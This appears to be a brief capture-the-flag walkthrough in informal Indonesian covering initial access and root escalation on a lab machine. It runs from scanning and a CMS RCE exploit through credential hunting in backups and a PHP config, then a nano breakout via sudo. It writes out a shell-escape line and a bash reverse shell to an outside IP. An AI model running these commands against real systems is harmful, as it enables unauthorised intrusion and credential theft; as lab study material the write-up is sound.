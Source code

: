 # boot:
1. scan nmap 80 8080 buka -> fuzz gada apa apa
2. nah coba pas di login jadi http://ip:8080/loginnya -> tar ada bug gitu nampilin nama cms nya
3. cari aja exploit nya -> ada tuh exploit nya yg rce -> target gini -> http://ip:8080
4. dah ada link ke rce nya -> taruh aja revshell di urlencode tapi -> coba nc 
5. dapet shell -> run linpeas aja di /tmp
6. ada tuh di searching password in history files -> /var/backups/mike_home_backup/ 
7. ama coba ini: /var/backups/mike_home_backup/documents/accounts.txt -> ampe kelupaan
8. di initialize php -> var www html itu ada creds mysql -> select aja tabel nya 

# pe:
1. sudo -l ada rootkit tuh
2. ke sana run aja yang di sudo -l -> tapi tambahin sudo -> next app jalan -> ketik read 
3. nano kebuka ctrl + r -> ctrl + x -> paste ini: reset; sh 1>&0 2>&0 -> enter
4. paste lagi ini: /bin/bash -c "bash -i >& /dev/tcp/10.8.27.249/6060 0>&1"
5. enter dah jadi root klaim root
